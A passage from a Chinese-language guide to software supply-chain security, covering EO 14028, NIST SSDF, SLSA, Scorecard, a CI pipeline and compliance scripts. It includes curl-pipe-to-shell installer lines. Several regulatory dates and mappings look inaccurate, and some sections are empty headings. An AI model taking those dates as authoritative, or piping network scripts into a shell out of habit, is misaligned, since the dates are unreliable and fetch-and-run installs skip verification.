│  │     SBOM     │  │    in-toto   │  │   TUF 框架   │  │
│  │  SPDX/CycloneDX│ │  (MIT)      │  │              │  │
│  └──────────────┘  └──────────────┘  └──────────────┘  │
└──────────────────────────────────────────────────────────┘
```

### 6.2 拜登行政令 14028 (EO 14028)

2021年5月，美国总统拜登签署了"改善国家网络安全"行政令，对供应链安全提出了明确要求：

| 要求 | 截止日期 | 具体措施 |
|------|---------|---------|
| SBOM 强制要求 | 2021年11月 | 向联邦政府销售软件必须提供 SBOM |
| 安全开发实践 | 2022年6月 | 软件商须自证遵循 NIST SSDF |
| 漏洞披露 | 2022年9月 | 建立协调漏洞披露计划 |
| 端点检测响应 | 2022年1月 | 部署 EDR 解决方案 |
| 零信任架构 | 2024年9月 | 联邦机构迁移到零信任 |

### 6.3 OpenSSF Scorecard

```bash
# OpenSSF Scorecard - 评估开源项目安全性

# 安装
go install github.com/ossf/scorecard/v4/cmd/scorecard@latest

# 评估项目（需要 GitHub Token）
export GITHUB_TOKEN=ghp_your_token
scorecard --repo github.com/kubernetes/kubernetes

# 输出示例:
# Starting [Binary-Artifacts]
# Starting [CI-Tests]
# Starting [CII-Best-Practices]
# Starting [Code-Review]
# Starting [Dangerous-Workflow]
# Starting [Dependency-Update-Tool]
# Starting [Fuzzing]
# Starting [License]
# Starting [Maintained]
# Starting [Pinned-Dependencies]
# Starting [Packaging]
# Starting [SAST]
# Starting [Security-Policy]
# Starting [Signed-Releases]
# Starting [Token-Permissions]
# Starting [Vulnerabilities]
# 
# RESULTS
# -------
# Aggregate score: 8.3 / 10
# Check scores:
# |-------------------------------|----|
# | Name                          |Score|
# |-------------------------------|----|
# | Binary-Artifacts              | 10 |
# | CI-Tests                      | 10 |
# | CII-Best-Practices            |  5 |
# | Code-Review                   | 10 |
# | Dangerous-Workflow            | 10 |
# | Dependency-Update-Tool        | 10 |
# | Fuzzing                       |  8 |
# | License                       | 10 |
# | Maintained                    | 10 |
# | Pinned-Dependencies           |  7 |
# | Packaging                     | 10 |
# | SAST                          |  8 |
# | Security-Policy               | 10 |
# | Signed-Releases               |  6 |
# | Token-Permissions             | 10 |
# | Vulnerabilities               |  9 |
# |-------------------------------|----|

# 生成 JSON 报告
scorecard --repo github.com/myorg/myproject --format json > scorecard-results.json

# 在 CI 中集成 Scorecard
scorecard --repo github.com/myorg/myproject \
  --format sarif \
  --output results.sarif
```

---

## 7. NIST SSDF 框架详解

### 7.1 NIST SP 800-218 概述

NIST 安全软件开发框架（Secure Software Development Framework, SSDF）提供了一套综合的安全软件开发最佳实践集合。

```
SSDF 四大实践组:

┌─────────────────────────────────────────────────────────┐
│  PO: 准备组织 (Prepare the Organization)                │
│  ─ 定义安全要求和流程                                    │
│  ─ 培训开发人员                                          │
│  ─ 实施工具和流程                                        │
├─────────────────────────────────────────────────────────┤
│  PS: 保护软件 (Protect the Software)                    │
│  ─ 保护代码库和开发环境                                  │
│  ─ 管理第三方软件                                        │
│  ─ 重用已有安全软件                                      │
├─────────────────────────────────────────────────────────┤
│  PW: 生产安全软件 (Produce Well-Secured Software)        │
│  ─ 安全设计                                              │
│  ─ 代码审查                                              │
│  ─ 安全测试                                              │
├─────────────────────────────────────────────────────────┤
│  RV: 漏洞响应 (Respond to Vulnerabilities)              │
│  ─ 识别和确认漏洞                                        │
│  ─ 评估、优先级排序和修复                                │
│  ─ 根本原因分析                                          │
└─────────────────────────────────────────────────────────┘
```

### 7.2 SSDF 实践详解

#### PO (准备组织) 实践

```yaml
# SSDF PO 实践检查清单

PO.1 定义安全要求:
  PO.1.1:
    任务: "识别并记录软件安全要求"
    产物:
      - 安全要求文档
      - 威胁模型
      - 合规性矩阵
    示例:
      - 数据加密要求（传输中和静止时）
      - 认证和授权要求
      - 审计日志要求

  PO.1.2:
    任务: "识别并记录所有第三方安全要求"
    产物:
      - 第三方安全条款
      - 供应商安全评估
    示例:
      - 云服务提供商合规认证要求
      - 开源组件许可证要求

PO.2 实施安全开发实践:
  PO.2.1:
    任务: "为开发人员提供安全培训"
    产物:
      - 培训材料
      - 培训完成记录
    频率: "至少每年一次，技术更新时额外培训"

  PO.2.2:
    任务: "确保开发人员具备完成安全任务的技能"
    检查:
      - OWASP Top 10 知识
      - 安全编码标准
      - 工具使用培训（SAST, DAST, SCA）

PO.3 实施安全开发工具:
  PO.3.1:
    任务: "选择并维护用于安全开发的工具"
    工具类别:
      SAST: [SonarQube, Semgrep, CodeQL]
      DAST: [OWASP ZAP, Burp Suite]
      SCA: [Snyk, Dependabot, OWASP Dependency-Check]
      Secret扫描: [GitGuardian, truffleHog, Gitleaks]
      容器扫描: [Trivy, Grype, Clair]
```

#### PS (保护软件) 实践

```bash
# PS.1 保护代码库访问

# 1. 强制 MFA 认证
# GitHub 组织强制 MFA
gh api -X PATCH /orgs/{org} \
  -f two_factor_requirement_enabled=true

# 2. 最小权限访问
# 使用 GitHub Fine-grained tokens
# 仅授予必要的仓库权限

# 3. 分支保护
gh api -X PUT repos/{owner}/{repo}/branches/main/protection \
  --input branch-protection.json

# PS.2 保护开发环境
# 使用短暂的、一次性构建环境
cat <<EOF > build-environment.yaml
# Kubernetes Job for isolated build
apiVersion: batch/v1
kind: Job
metadata:
  name: secure-build-$(date +%s)
spec:
  template:
    spec:
      serviceAccountName: build-sa  # 最小权限
      securityContext:
        runAsNonRoot: true
        seccompProfile:
          type: RuntimeDefault
      containers:
        - name: builder
          image: golang:1.21.6-alpine@sha256:abcd1234...  # 固定摘要
          securityContext:
            allowPrivilegeEscalation: false
            readOnlyRootFilesystem: true
            capabilities:
              drop: [ALL]
      restartPolicy: Never
      automountServiceAccountToken: false
EOF
```

### 7.3 SSDF 与 EO 14028 映射

```
SSDF 实践 → EO 14028 要求 映射:

EO 要求: 多因素认证
  ↔ SSDF PO.1.3: 识别需要保护的系统和数据

EO 要求: 加密静态和传输数据
  ↔ SSDF PW.2.1: 设计软件以满足安全要求

EO 要求: 终端检测与响应
  ↔ SSDF PS.3.1: 监控开发环境中的威胁

EO 要求: 日志记录
  ↔ SSDF PO.3.2: 维护安全工具和数据的安全日志

EO 要求: SBOM
  ↔ SSDF PS.3.2: 存档和保护每个版本的软件及其依赖

EO 要求: 安全开发实践
  ↔ SSDF PW.* 全部实践
```

---

## 8. SLSA 框架概述

### 8.1 SLSA 简介

SLSA（Supply chain Levels for Software Artifacts，软件制品供应链级别）是由 Google 提出、OpenSSF 维护的供应链安全框架。

```
SLSA 核心概念:

供应链 = 来源 + 构建 + 依赖
         (Source) (Build) (Dependencies)

SLSA 目标:
1. 防止对源代码的未经授权的更改
2. 防止对构建过程的篡改
3. 防止制品被替换
4. 提高安全性的可见性和可审计性
```

### 8.2 SLSA 级别概览



### 8.3 SLSA 出处（Provenance）

```json
// SLSA v1.0 出处格式示例
{
  "_type": "https://in-toto.io/Statement/v0.1",
  "predicateType": "https://slsa.dev/provenance/v1",
  "subject": [
    {
      "name": "pkg:docker/myorg/myapp@v1.2.3",
      "digest": {
        "sha256": "9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08"
      }
    }
  ],
  "predicate": {
    "buildDefinition": {
      "buildType": "https://github.com/slsa-framework/slsa-github-generator/container@v1",
      "externalParameters": {
        "workflow": {
          "ref": "refs/tags/v1.2.3",
          "repository": "https://github.com/myorg/myapp",
          "path": ".github/workflows/release.yml"
        }
      },
      "resolvedDependencies": [
        {
          "uri": "git+https://github.com/myorg/myapp@refs/tags/v1.2.3",
          "digest": {
            "gitCommit": "abc123def456..."
          }
        }
      ]
    },
    "runDetails": {
      "builder": {
        "id": "https://github.com/actions/runner@v2.311.0"
      },
      "metadata": {
        "invocationID": "https://github.com/myorg/myapp/actions/runs/12345678/attempts/1",
        "startedOn": "2024-01-15T10:00:00Z",
        "finishedOn": "2024-01-15T10:05:30Z"
      }
    }
  }
}
```

---

## 9. 云原生供应链安全生态

### 9.1 CNCF 供应链安全项目

```
CNCF 供应链安全项目全景:

签名与验证:
├── Sigstore (cosign, fulcio, rekor)
├── The Update Framework (TUF)
└── Notary (Harbor 镜像签名)

SBOM 工具:
├── Syft (Anchore)
├── Trivy (Aqua Security)
└── Tern (VMware)

漏洞扫描:
├── Grype (Anchore)
├── Trivy (Aqua Security)
├── Clair (Quay)
└── Snyk

出处与认证:
├── in-toto
├── SLSA GitHub Generator
└── Tekton Chains

策略执行:
├── OPA/Gatekeeper
├── Kyverno
└── Connaisseur

密钥管理:
├── Vault (HashiCorp)
├── cert-manager
└── External Secrets Operator
```

### 9.2 完整供应链安全管道

```yaml
# 完整的 GitHub Actions 供应链安全管道
name: Secure Supply Chain Pipeline
on:
  push:
    tags:
      - 'v*'

permissions:
  contents: read
  packages: write
  id-token: write  # 用于 OIDC 无密钥签名
  security-events: write

env:
  REGISTRY: ghcr.io
  IMAGE_NAME: ${{ github.repository }}

jobs:
  # 阶段1: 代码安全分析
  code-security:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11
      
      - name: CodeQL Analysis
        uses: github/codeql-action/analyze@cdcdbb579706841c47f7063dda365e292e5cad7a
        with:
          languages: go,javascript
          
      - name: Secret scanning
        uses: trufflesecurity/trufflehog@main
        with:
          path: ./
          base: ${{ github.event.repository.default_branch }}
          head: HEAD

  # 阶段2: 依赖漏洞扫描
  dependency-scan:
    runs-on: ubuntu-latest
    needs: code-security
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11
      
      - name: Run Trivy vulnerability scanner in repo mode
        uses: aquasecurity/trivy-action@2b6a709cf9c4025c5438138008beaddbb02086f0
        with:
          scan-type: 'fs'
          scan-ref: '.'
          format: 'sarif'
          output: 'trivy-results.sarif'
          severity: 'CRITICAL,HIGH'
          
      - name: Upload Trivy scan results
        uses: github/codeql-action/upload-sarif@cdcdbb579706841c47f7063dda365e292e5cad7a
        with:
          sarif_file: 'trivy-results.sarif'

  # 阶段3: 构建和 SBOM 生成
  build:
    runs-on: ubuntu-latest
    needs: dependency-scan
    outputs:
      image: ${{ steps.image.outputs.image }}
      digest: ${{ steps.build.outputs.digest }}
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11
      
      - name: Setup Docker Buildx
        uses: docker/setup-buildx-action@f95db51fddba0c2d1ec667646a06c2ce06100226
        
      - name: Login to Registry
        uses: docker/login-action@343f7c4344506bcbf9b4de18042ae17996df046d
        with:
          registry: ${{ env.REGISTRY }}
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}
          
      - name: Extract metadata
        id: meta
        uses: docker/metadata-action@96383f45573cb7f253c731d3b3ab81c87ef81934
        with:
          images: ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}
          
      - name: Build and push
        id: build
        uses: docker/build-push-action@0565240e2d4ab88bba5387d719585280857ece09
        with:
          context: .
          push: true
          tags: ${{ steps.meta.outputs.tags }}
          labels: ${{ steps.meta.outputs.labels }}
          cache-from: type=gha
          cache-to: type=gha,mode=max
          sbom: true  # 生成 SBOM
          provenance: mode=max  # 生成出处

      - name: Set image output
        id: image
        run: echo "image=${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}@${{ steps.build.outputs.digest }}" >> $GITHUB_OUTPUT

  # 阶段4: 镜像扫描
  image-scan:
    runs-on: ubuntu-latest
    needs: build
    steps:
      - name: Run Trivy on built image
        uses: aquasecurity/trivy-action@2b6a709cf9c4025c5438138008beaddbb02086f0
        with:
          image-ref: ${{ needs.build.outputs.image }}
          format: 'sarif'
          output: 'trivy-image-results.sarif'
          severity: 'CRITICAL'
          exit-code: '1'

  # 阶段5: 签名和出处
  sign-and-attest:
    runs-on: ubuntu-latest
    needs: [build, image-scan]
    steps:
      - name: Install Cosign
        uses: sigstore/cosign-installer@9614fae9e5c5eddabb09f90a270fcb487c9f7149
        
      - name: Sign the image
        run: |
          cosign sign \
            --yes \
            ${{ needs.build.outputs.image }}
            
      - name: Generate SLSA provenance
        uses: slsa-framework/slsa-github-generator/.github/workflows/generator_container_slsa3.yml@v1.10.0
        with:
          image: ${{ needs.build.outputs.image }}
          digest: ${{ needs.build.outputs.digest }}
          registry-username: ${{ github.actor }}
          registry-password: ${{ secrets.GITHUB_TOKEN }}
```

---

## 10. 实施路径与最佳实践

### 10.1 供应链安全成熟度路径



### 10.2 关键安全控制清单

```bash
#!/bin/bash
# supply-chain-health-check.sh
# 供应链安全健康检查脚本

echo "=== 供应链安全健康检查 ==="

# 1. 检查 Git 提交签名配置
check_git_signing() {
  echo ""
  echo "--- 检查 Git 签名配置 ---"
  
  if git config --global commit.gpgsign | grep -q "true"; then
    echo "✓ GPG 提交签名已启用"
  else
    echo "✗ 未启用 GPG 提交签名"
    echo "  修复: git config --global commit.gpgsign true"
  fi
}

# 2. 检查依赖锁定文件
check_lock_files() {
  echo ""
  echo "--- 检查依赖锁定文件 ---"
  
  declare -A lock_files=(
    ["package.json"]="package-lock.json"
    ["Pipfile"]="Pipfile.lock"
    ["pyproject.toml"]="poetry.lock"
    ["go.mod"]="go.sum"
    ["Cargo.toml"]="Cargo.lock"
    ["Gemfile"]="Gemfile.lock"
  )
  
  for manifest in "${!lock_files[@]}"; do
    lockfile="${lock_files[$manifest]}"
    if [ -f "$manifest" ]; then
      if [ -f "$lockfile" ]; then
        echo "✓ $lockfile 存在"
      else
        echo "✗ 找到 $manifest 但缺少 $lockfile"
      fi
    fi
  done
}

# 3. 检查 SECURITY.md
check_security_policy() {
  echo ""
  echo "--- 检查安全策略文件 ---"
  
  if [ -f "SECURITY.md" ] || [ -f ".github/SECURITY.md" ]; then
    echo "✓ SECURITY.md 存在"
  else
    echo "✗ 缺少 SECURITY.md"
  fi
}

# 4. 检查 CI/CD 工作流安全
check_ci_security() {
  echo ""
  echo "--- 检查 CI/CD 安全配置 ---"
  
  if [ -d ".github/workflows" ]; then
    # 检查 Actions 是否固定到 SHA
    unpinned=$(grep -r "uses:" .github/workflows/ | \
      grep -v "@[a-f0-9]\{40\}" | \
      grep -v "^#" | wc -l)
    
    if [ "$unpinned" -eq 0 ]; then
      echo "✓ 所有 Actions 已固定到 commit SHA"
    else
      echo "✗ 发现 $unpinned 个未固定的 Actions"
    fi
  fi
}

# 执行所有检查
check_git_signing
check_lock_files
check_security_policy
check_ci_security

echo ""
echo "=== 检查完成 ==="
```

### 10.3 事件响应计划

```yaml
# 供应链安全事件响应计划
incident-response:
  
  检测阶段:
    工具:
      - 依赖漏洞扫描器告警
      - OSS-Fuzz 模糊测试报告
      - CVE 数据库订阅
      - 威胁情报平台
    
    初始评估指标:
      - CVSS 评分 >= 7.0
      - 受影响依赖在生产环境使用
      - 存在公开利用代码
      - 供应链污染迹象
  
  遏制阶段 (0-4小时):
    即时措施:
      - 隔离受影响系统
      - 阻断恶意依赖的网络访问
      - 保留证据（内存转储、日志）
      - 激活事件响应团队
    
    通信:
      - 通知 CISO 和安全团队
      - 评估是否需要向监管机构报告
      - 准备内部通报
  
  根除阶段 (4-24小时):
    技术措施:
      - 识别所有受影响系统和版本
      - 准备修复版本或补丁
      - 在非生产环境测试修复
      - 部署修复到生产环境
    
    供应链措施:
      - 更新受影响依赖
      - 重新生成受影响 SBOM
      - 重新扫描所有镜像
      - 重新签名所有制品
  
  恢复阶段 (24-72小时):
    验证措施:
      - 确认漏洞已修复
      - 恢复受影响服务
      - 监控异常活动
      - 完成事后分析
  
  改进阶段:
    经验教训:
      - 根本原因分析
      - 流程改进建议
      - 工具和自动化改进
      - 培训和意识提升
```

---

## 11. 合规性与监管要求

### 11.1 合规框架映射

| 合规框架 | 供应链相关要求 | 关键控制 |
|---------|--------------|---------|
| SOC 2 Type II | CC8.1 变更管理 | 代码审查、变更控制流程 |
| ISO 27001 | A.14.2 系统开发安全 | 安全开发生命周期 |
| PCI DSS v4 | Req 6 安全软件开发 | 漏洞管理、代码审查 |
| NIST CSF 2.0 | GV.SC 供应链风险管理 | 供应商评估、SBOM |
| FedRAMP | 多个控制族 | 配置管理、变更控制 |
| CMMC 2.0 | SI.2 恶意代码防护 | 制品完整性验证 |

### 11.2 SBOM 合规要求

```
SBOM 监管要求时间线:

2021-05 ─ 美国 EO 14028：联邦软件供应商需提供 SBOM
2022-07 ─ FDA 医疗器械 SBOM 指导草案
2023-03 ─ NTIA 最小 SBOM 要素标准确立
2023-09 ─ FDA 网络安全法规：医疗设备强制 SBOM
2024-01 ─ EU CRA（网络弹性法案）草案包含 SBOM 要求
2024-06 ─ DoD CMMC 2.0 正式生效，含供应链要求
```

### 11.3 审计和合规文档化

```bash
# 生成合规证据包
#!/bin/bash
# compliance-evidence.sh

EVIDENCE_DIR="./compliance-evidence/$(date +%Y-%m-%d)"
mkdir -p "$EVIDENCE_DIR"

# 1. 生成 SBOM
echo "Generating SBOM..."
syft . -o spdx-json > "$EVIDENCE_DIR/sbom.spdx.json"
syft . -o cyclonedx-json > "$EVIDENCE_DIR/sbom.cyclonedx.json"

# 2. 漏洞扫描报告
echo "Running vulnerability scan..."
grype sbom:"$EVIDENCE_DIR/sbom.spdx.json" \
  -o json > "$EVIDENCE_DIR/vulnerability-report.json"

# 3. 许可证合规报告
echo "Checking licenses..."
syft . -o json | jq '.artifacts[].licenses' \
  > "$EVIDENCE_DIR/license-report.json"

# 4. 代码签名状态
echo "Checking code signing..."
git log --show-signature --format="%H %G? %GS" \
  > "$EVIDENCE_DIR/commit-signatures.txt"

# 5. 依赖锁定状态
echo "Checking dependency locks..."
for lockfile in package-lock.json poetry.lock go.sum Cargo.lock; do
  if [ -f "$lockfile" ]; then
    sha256sum "$lockfile" >> "$EVIDENCE_DIR/lock-files-hashes.txt"
  fi
done

# 6. CI/CD 管道安全配置
echo "Documenting CI/CD configuration..."
tar -czf "$EVIDENCE_DIR/workflows.tar.gz" .github/workflows/

echo "Evidence package created at: $EVIDENCE_DIR"
ls -lh "$EVIDENCE_DIR"
```

---

## 12. 未来趋势与挑战

### 12.1 新兴威胁



### 12.2 技术发展方向

**1. 确定性构建（Deterministic Builds）**

```bash
# 可重现构建验证
# 目标：相同输入 → 相同输出，任何人可验证

# Go 示例：实现可重现构建
CGO_ENABLED=0 \
GOOS=linux \
GOARCH=amd64 \
GOFLAGS=-trimpath \
go build -ldflags="-s -w" -o myapp ./cmd/main.go

# 验证：对比两次构建的哈希值
sha256sum build1/myapp build2/myapp
# 如果两个哈希值相同，构建是可重现的
```

**2. 零知识证明（ZKP）在供应链中的应用**

```
未来应用场景:

构建者证明：
"我使用了符合 SLSA L3 要求的流程构建此制品，
但不需要暴露具体的构建环境细节"

审查者验证：
"此代码变更通过了所有安全检查，
但不需要暴露具体的审查者身份"

合规性证明：
"此软件满足所有 PCI DSS 要求，
但不需要暴露具体的实现细节"
```

**3. AI 辅助供应链安全**

```yaml
AI 增强供应链安全能力:

异常检测:
  - 依赖版本异常更新模式识别
  - 提交行为模式分析（时间、大小、范围）
  - 构建输出异常检测

漏洞预测:
  - 基于代码语义的漏洞预测
  - 新漏洞对依赖图的影响传播预测
  - 修复建议自动生成

威胁情报:
  - 自动关联威胁指标
  - 供应链攻击模式学习
  - 零日漏洞早期预警
```

### 12.3 后量子密码迁移

```bash
# 准备后量子密码迁移

# 当前使用 ECDSA 的场景（需要迁移）
# - Sigstore 签名
# - TLS 证书
# - SSH 密钥
# - Git 提交签名

# NIST 后量子密码标准（2024年正式发布）
# ML-KEM (CRYSTALS-Kyber) - 密钥封装
# ML-DSA (CRYSTALS-Dilithium) - 数字签名
# SLH-DSA (SPHINCS+) - 数字签名（基于哈希）

# 迁移策略：混合签名（过渡期）
# 同时使用传统算法和后量子算法签名
# cosign 已开始研究后量子支持
```

---

## 参考资料与扩展阅读

### 官方文档

| 资源 | URL | 描述 |
|------|-----|------|
| NIST SSDF | https://csrc.nist.gov/publications/detail/sp/800-218/final | SP 800-218 完整框架 |
| SLSA 官网 | https://slsa.dev | SLSA 框架规范 |
| Sigstore | https://sigstore.dev | 无密钥签名基础设施 |
| OpenSSF | https://openssf.org | 开源安全基金会 |
| CISA | https://www.cisa.gov/supply-chain | 供应链安全指南 |
| in-toto | https://in-toto.io | 供应链完整性框架 |

### 工具资源

```bash
# 供应链安全工具安装汇总

# Syft - SBOM 生成
curl -sSfL https://raw.githubusercontent.com/anchore/syft/main/install.sh | sh -s -- -b /usr/local/bin

# Grype - 漏洞扫描
curl -sSfL https://raw.githubusercontent.com/anchore/grype/main/install.sh | sh -s -- -b /usr/local/bin

# Cosign - 制品签名
go install github.com/sigstore/cosign/v2/cmd/cosign@latest

# Scorecard - 项目安全评估
go install github.com/ossf/scorecard/v4/cmd/scorecard@latest

# Trivy - 综合漏洞扫描
brew install aquasecurity/trivy/trivy

# Slsa-verifier - SLSA 出处验证
go install github.com/slsa-framework/slsa-verifier/v2/cli/slsa-verifier@latest
```

---

*本文档持续更新，反映供应链安全领域的最新发展。*
*最后更新: 2024年*
*版本: 1.0*
